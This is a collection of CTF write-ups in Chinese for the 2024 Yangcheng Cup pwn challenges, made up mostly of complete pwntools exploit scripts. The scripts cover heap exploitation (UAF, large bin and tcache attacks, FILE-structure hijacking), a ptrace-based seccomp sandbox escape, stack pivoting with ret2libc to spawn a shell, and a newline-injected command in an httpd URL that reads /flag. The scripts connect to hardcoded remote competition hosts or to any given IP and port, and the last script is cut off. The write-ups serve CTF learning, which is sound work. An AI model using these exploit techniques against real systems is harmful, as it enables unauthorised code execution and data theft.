






# 2024-羊城杯pwn-writeups

‍

### hard sandbox

‍

- mp_ UAF

- 前半部分和 `TravelGraph` 题目差不多的思路
- 主要还是绕沙箱，fork + ptrace

‍



‍

- 参考

> https://man7.org/linux/man-pages/man2/seccomp.2.html



‍

‍

- exploit

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('124.221.140.64',9999)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './pwn'
libelf = ''
try:
    elf  = ELF(binary);rop = ROP(binary)
    libc = ELF(libelf) if libelf else elf.libc
    ''' Load binary and libraries '''
except: exit(0)

gdbscript = '''

#continue
'''.format(**locals())
io = start(binary)

def add(idx,size):
    ru('>')
    sl('1')
    ru(': ')
    sl(str(idx))
    ru(': ')
    sl(str(size))

def rm(idx):
    ru('>')
    sl('2')
    ru(': ')
    sl(str(idx))

def edit(idx,text):
    ru('>')
    sl('3')
    ru(': ')
    sl(str(idx))
    ru(': ')
    s(text)

def show(idx):
    ru('>')
    sl('4')
    ru(': ')
    sl(str(idx))


add(0,0x528)
add(1,0x538)
add(2,0x518)
add(3,0x538)

rm(0)
add(4,0x538)
rm(2)


show(0)
libc_base = uu64(r(6)) - 2060528
libc.address = libc_base
lss('libc_base')

edit(0,'A'*0x10)
show(0)
ru('A'*0x10)
heap_base = uu64(r(6)) - 656

pay  = p64(libc_base + 2060528) * 2
pay += p64(heap_base + 656) + p64(libc_base - 0x20 + 2057136 - 4)
edit(0,pay)

add(5,0x538)

lss('heap_base')
lss('libc_base')

add(6,0x518)


add(7,0x600)
add(8,0x600)


edit(7,'pay1')
edit(8,'pay2')

rm(7)
rm(8)

key = (heap_base + 0x2800)  >> 0xC
edit(8,p64(libc.sym['_IO_2_1_stdout_'] ^ key))

add(9,0x600)
add(10,0x600)


fake_IO_addr = libc.sym['_IO_2_1_stdout_']

pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['setcontext'] + 61,
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: fake_IO_addr,                # rdi  #read fd
    0x70: 0,     # rsi  #read buf
    0x78: fake_IO_addr,     # rsi2  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0x90: 0x400,     # rdx2  #read size
    0x98: 0x23,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['setcontext']+294, # RCE2 ogg
    0xb0: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')

#gdb.attach(io,'b *_IO_2_1_stdout_+88')
#gdb.attach(io,'b *_IO_switch_to_wget_mode')
edit(10,pay)

pause()

libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

def ptrace(action=0, pid=0, addr=0, data=0):
    sc1 = f'''
    mov rax, 0x65
    mov rdi, {action}
    mov rsi, {pid}
    mov rdx, {addr}
    mov rcx, {data}
    syscall
    '''
    return sc1

PTRACE_ATTACH = 0x10
PTRACE_CONT = 7
PTRACE_DETACH = 17
PTRACE_INTERRUPT = 12
PTRACE_SETOPTIONS = 0x4200
PTRACE_O_TRACESECCOMP = 0x80

sc = '''
sub rsp,0x100
push rax
'''
sc += shellcraft.fork()
sc += f'''
mov r13,rax
cmp r13,0
je zjc
    push r13
    push r13
    push r13
    push r13
    {shellcraft.write(1, 'rsp',8)}
    {shellcraft.ptrace(PTRACE_ATTACH, 'r13', 0, 0)}
    pop r13
    {shellcraft.wait4(0)}
    pop r13
    {shellcraft.ptrace(PTRACE_SETOPTIONS, 'r13', 0, PTRACE_O_TRACESECCOMP)}
    pop r13
    {shellcraft.ptrace(PTRACE_CONT, 'r13', 0, 0)}
    pop r13
    {shellcraft.wait4(0)}
    {shellcraft.ptrace(PTRACE_DETACH, 'r13', 0, 0)}
zjc:
    {shellcraft.sleep(1)}
    {shellcraft.open('/flag')}
    {shellcraft.sendfile(1,'rax',0,0x50)}
'''

#{shellcraft.write(1,'rsp',4)}
#{shellcraft.sendfile(1,'rax',0,0x50)}
#sc  = shellcraft.ptrace(PTRACE_ATTACH, 'rax', 0, 0)
#sc += shellcraft.wait4(pid, 0, 0)
#sc += shellcraft.ptrace(PTRACE_SETOPTIONS, pid, 0, 0x80)
#sc += shellcraft.ptrace(PTRACE_CONT, pid, 0, 0)
#sc += shellcraft.ptrace(PTRACE_DETACH, pid, 0, 0)
##sc += shellcraft.read(0,'rsp',0x10)
#sc += shellcraft.open('/flag')
#sc += shellcraft.sendfile(1,'rax',0,0x50)


pay  = p64(rax) + p64(0xa) + p64(rdi) + p64(libc.sym['_IO_2_1_stdout_']>>0xC<<0xC) + p64(rsi) + p64(0x1000) +p64(rdx) + p64(7)*2 + p64(syscall)
pay += p64(fake_IO_addr + 88)
pay += asm(sc)
sl(pay)


itr()

```

‍

‍

### pstack

- 栈迁移 ret2libc

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('139.155.126.78',32612)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './pwn'
libelf = ''
try:
    elf  = ELF(binary);rop = ROP(binary)
    libc = ELF(libelf) if libelf else elf.libc
    ''' Load binary and libraries '''
except: exit(0)

gdbscript = '''

#continue
'''.format(**locals())
io = start(binary)

#gdb.attach(io,gdbscript)
ru('?\n')
pay = b'A' * 0x30 + p64(0x601000+0x800) + p64(0x4006C4)
s(pay)
pause()
pay = p64(0x601000+0x200-0x40+0x600) + p64(0x0000000000400773) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x4006C4)
pay = pay.ljust(0x30,b'A')
pay += p64(0x601000+0x200-0x30+0x600)
pay += p64(0x04006DB)
s(pay)
libc_base = uu64(r(6)) - libc.sym['puts']
lss('libc_base')
pause()
#pay =  p64(0x0000000000400773+1) +p64(0x0000000000400773) + p64(libc_base + next(libc.search(b'/bin/sh'))) + p64(libc_base + libc.sym['system'])
pay =   p64(0x0000000000400773) + p64(libc_base + next(libc.search(b'/bin/sh'))) + p64(libc_base + libc.sym['system'])
pay = pay.ljust(0x30,b'A')
pay += p64(0x601190-8+0x600)
pay += p64(0x04006DB)
sl(pay)
pause()


itr()

```

‍

‍

### TravelGraph

‍

- 存在UAF 构造堆块错位重叠，控制堆内结构体，然后 large bin attack 打 `mp_`



‍

- 后面就 控制 tcachebins 链表任意地址申请，攻击 iofile， 然后ORW 绕沙箱

‍

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('139.155.126.78',39713)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './pwn'
libelf = ''
try:
    elf  = ELF(binary);rop = ROP(binary)
    libc = ELF(libelf) if libelf else elf.libc
    ''' Load binary and libraries '''
except: exit(0)

gdbscript = '''
b *_IO_switch_to_wget_mode
brva 0x01781
brva 0x01D0D
brva 0x0021AA 
#continue
'''.format(**locals())
io = start(binary)

def add(size,n1,n2,num=1000,text='A'):
    ru('5. Calculate the distance.\n')
    sl('1')
    ru('?\n')
    if(size==1):
        sl('car\x00') # 510
    if(size==2):
        sl('train\x00') # 520
    if(size==3):
        sl('plane\x00') # 530
    ru('?\n')
    sl(n1)
    ru('?\n')
    sl(n2)
    ru('?\n')
    sl(str(num))
    ru(':\n')
    s(text)
    # 020 cities          db 'guangzhou',0        ; DATA XREF: get_city_name+55↑o
    # .data:000000000000502A                 align 10h
    # .data:0000000000005030 aNanning        db 'nanning',0
    # .data:0000000000005038                 align 20h
    # .data:0000000000005040 aChangsha       db 'changsha',0
    # .data:0000000000005049                 align 10h
    # .data:0000000000005050 aNanchang       db 'nanchang',0
    # .data:0000000000005059                 align 20h
    # .data:0000000000005060 aFuzhou         db 'fuzhou',0

def rm(n1,n2):
    ru('5. Calculate the distance.\n')
    sl('2')
    ru('?\n')
    sl(n1)
    ru('?\n')
    sl(n2)

def show(n1,n2):
    ru('5. Calculate the distance.\n')
    sl('3')
    ru('?\n')
    sl(n1)
    ru('?\n')
    sl(n2)
def edit(n1,n2):
    ru('5. Calculate the distance.\n')
    sl('4')
    ru('?\n')
    sl(n1)
    ru('?\n')
    sl(n2)

def calc(citie):
    ru('5. Calculate the distance.\n')
    sl('5')
    ru('?\n')
    sl(citie)

c0 = 'guangzhou'
c1 = 'nanning'
c2 = 'changsha'
c3 = 'nanchang'
c4 = 'fuzhou'


add(3,c0,c1) # pad
add(1,c1,c2) # pad
add(3,c2,c4) # pad
calc(c4)
rm(c0,c1)
add(1,c0,c2)
rm(c1,c2)

#gdb.attach(io)
pay1  = p64(0) + p64(0x521+0x540)
pay1 += p32(4) + p32(4)
pay1 += p32(1000) + p32(2)
pay1 += b'AAAAAAAA'

add(3,c0,c3,1000,pay1)
add(1,c0,c4)
add(1,c1,c0)

rm(c4,c4)

show(c0,c2)
ru('Note:')
heap_base = uu64(r(6)) - 5185
lss('heap_base')


add(2,c1,c1) # p1

show(c2,c4)
ru('Note:')
libc_base = uu64(r(6)) - 2206944
lss('libc_base')

add(3,c1,c3) # pad
add(1,c1,c3) # pad
add(1,c1,c4) # p2
add(3,c1,c3) # pad

rm(c1,c1)
add(3,c1,c3) # pad
rm(c1,c4)


edit(c0,c3)
ru('?\n')
sl('0')
ru('?\n')
sl('1')
ru(':\n')

libc.address = libc_base
arena = libc_base + 2208016
nfdbk = heap_base + 6576
pay  = p64(0) + p64(0x531)
pay += p64(arena) * 2
pay += p64(nfdbk+0x20) + p64(libc_base + 2204624-0x20-4)
sl(pay)

add(3,c1,c3)

add(1,c3,c1,1,'ABCDpay1')

rm(c0,c3)
pay1  = p64(0) + p64(0x521)
pay1 += p32(4) + p32(3)
pay1 += p32(1000) + p32(2)
pay1 += b'AAAAAAAA'
add(3,c0,c3,1000,pay1)


rm(c3,c1)
rm(c4,c3)


rm(c0,c3)


fd = (libc.sym['_IO_2_1_stdout_']-0x10) ^ ((heap_base+6608)>>0xC)
pay1  = p64(0) + p64(0x521)
pay1 += p64(fd)+ p64(0)
pay1 += b'TTTTTT'

add(3,c0,c3,1000,pay1)

add(1,c3,c2,1,'ABCDpay1')


fake_IO_addr = libc.sym['_IO_2_1_stdout_']


pay = flat({
    0x00: '  sh;',
    0x18: libc.sym['setcontext'] + 61,
    0x20: fake_IO_addr, # 0x20 > 0x18
    0x68: fake_IO_addr,                # rdi  #read fd
    0x70: 0,     # rsi  #read buf
    0x78: fake_IO_addr,     # rsi2  #read buf
    0x88: fake_IO_addr + 0x8,     # rdx  #read size
    0x90: 0x400,     # rdx2  #read size
    0x98: 0x23,     # rdx  #read size
    0xa0: fake_IO_addr,
    0xa8: libc.sym['setcontext']+294, # RCE2 ogg
    0xb0: libc.sym['read'], # RCE2 ogg
    0xd8: libc.sym['_IO_wfile_jumps'] + 0x30 - 0x20,
    0xe0: fake_IO_addr,
    },filler=b'\x00')


#gdb.attach(io,'b *_IO_switch_to_wget_mode')

add(1,c3,c3,1,pay)

pause()


libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr

orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(orw_rop_addr+0xd0) + p64(rsi) + p64(0) + p64(rdx) + p64(0)*2 + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(orw_rop_addr+0xd0) + p64(rdx) + p64(0x100)*2 + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(orw_rop_addr+0xd0) + p64(rdx) + p64(0x100)*2 + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
sl(orw_rop)

lss('heap_base')
lss('libc_base')

itr()


```

‍

‍

‍

### httpd

‍

- 直接秒,url %0a 绕过，无回显RCE, 将结果重定向到check.html,然后查看

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'i386'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('139.155.126.78',31159)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './httpd'
libelf = ''
try:
    elf  = ELF(binary);rop = ROP(binary)
    libc = ELF(libelf) if libelf else elf.libc
    ''' Load binary and libraries '''
except: exit(0)

gdbscript = '''
brva 0x0000194B
brva 0x000019D8
brva 0x00001AD6
brva 0x00001A42
#continue
'''.format(**locals())


io = start(binary)


url = '/%0a%0acat</flag>check/check.html'
url = '/check/check.html'
pay = '''get '''+url+''' HTTP/1.0
Host: 1.1.1.1
Content-Length: 123'''
#gdb.attach(io,gdbscript)
sl(pay)

#d = ru('</html>')
#print(d.decode().replace('\r',''))
itr()
```

‍





‍

‍

‍

### logger

‍

- 参考

> [DASCTF X GFCTF 2024四月-pwn-control【异常机制】_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1eE421L7ZE/?vd_source=1a7493bc00526a1cbb0320c1017f3f6c)

‍

‍

- exploit

```python
from pwn import *
import sys

# Define lambda functions for common operations
s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(delim, data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(delim, data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)
lss     = lambda s                  :ls('\033[1;31;40m%s --> 0x%x \033[0m' % (s, eval(s)))
itr     = lambda                    :io.interactive()
# Context settings
context.arch      = 'amd64'
context.log_level = 'debug' # info
context.terminal  = ['tmux','splitw','-h','-l','170']
def start(binary,argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if   args.GDB: return gdb.debug([binary] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.CMD: return process(binary.split(' '))
    elif args.REM: return remote('139.155.126.78',39620)
    elif args.AWD: return remote(sys.argv[1], int(sys.argv[2]))
    '''     Usage: python3 exp.py AWD <IP> <PORT>   '''
    return process([binary] + argv, *a, **kw)

binary = './pwn'
libelf = ''

elf  = ELF(binary);rop = ROP(binary)

gdbscript = '''
b * 0x040183D
b *0x00401BC7
b *0x0401A64
#continue
'''.format(**locals())


#import socks
#context.proxy = (socks.SOCKS5, '192.168.80.102', 10808)

io = start(binary)


def add(data):
    ru(':')
    sl('1')
    ru('here:')
    s(data)
    ru('records? ')
    sl('y')


bd = 0x401C00

bsstext = 0x404020

add(p64(0x404068)+b'/bin/sh;')
add(p64(0x404068)+b'/bin/sh;')
add(p64(0x404068)+b'/bin/sh;')
add(p64(0x404068)+b'/bin/sh;')
add(p64(0x404068)+b'/bin/sh;')
add(p64(0x404068)+p64(bd))
add(p64(0x404068)+p64(bd))
add(p64(0x404088)+p64(bd))


ru(':')
sl('2')
ru('plz: ')
pay  = b''
